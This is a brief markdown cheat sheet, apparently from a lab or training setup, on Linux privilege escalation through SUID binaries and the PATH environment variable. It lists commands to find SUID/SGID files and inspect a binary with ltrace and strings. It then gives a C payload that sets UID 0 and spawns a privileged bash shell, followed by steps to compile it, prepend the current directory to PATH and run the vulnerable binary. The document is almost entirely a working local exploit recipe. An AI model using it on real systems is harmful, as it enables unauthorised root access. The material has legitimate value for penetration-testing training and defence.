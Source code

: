 # Environment Variables
#### Detection
```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
# Look for system call
ltrace /usr/local/bin/suid-env
# Look for interesting strings
strings /usr/local/bin/suid-env
```

#### Exploitation code
```bash
int main() {
	setuid(0);
	system("/bin/bash -p");
}
```

#### Exploitation
```bash
# Compile the payload
gcc -o service /home/user/tools/suid/service.c
# Modify the Path
export PATH=.:$PATH 
# Execute the vulnerable program
/usr/local/bin/suid-env
```
